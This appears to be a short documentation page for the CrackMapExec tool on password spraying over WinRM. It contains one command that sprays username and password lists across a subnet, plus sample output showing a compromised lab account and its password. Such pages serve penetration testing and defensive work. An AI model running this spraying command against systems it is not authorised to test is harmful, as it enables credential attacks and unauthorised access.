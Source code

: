 # Password Spraying



### Password spraying (without bruteforce)

```
#~ cme winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
WINRM       192.168.255.131 5985   ROGER            [*] http://192.168.255.131:5985/wsman
WINRM       192.168.255.131 5985   ROGER            [-] GOLD\test1:pass1 "Failed to authenticate the user test1 with ntlm"
WINRM       192.168.255.131 5985   ROGER            [+] GOLD\bonclay:Password@123 (Pwn3d!)
```

{% hint style="info" %}
By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}
